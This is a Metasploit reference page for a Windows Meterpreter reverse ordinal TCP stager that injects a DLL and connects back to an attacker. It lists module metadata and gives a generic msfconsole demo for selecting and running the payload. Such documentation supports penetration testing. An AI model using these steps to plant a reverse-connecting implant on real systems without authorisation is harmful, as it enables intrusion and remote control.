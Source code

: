 ## Windows Meterpreter (skape/jt Injection), Reverse Ordinal TCP Stager (No NX or Win7)

Inject the meterpreter server DLL (staged). Connect back to 
the attacker


## Module Name
payload/windows/patchupmeterpreter/reverse_ord_tcp

## Authors
* skape
* jt <jt@klake.org>
* spoonm





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/patchupmeterpreter/reverse_ord_tcp
msf payload(reverse_ord_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_ord_tcp) > set TARGET <target-id>
msf payload(reverse_ord_tcp) > show options
   ... show and set options ...
msf payload(reverse_ord_tcp) > run
```
    
    
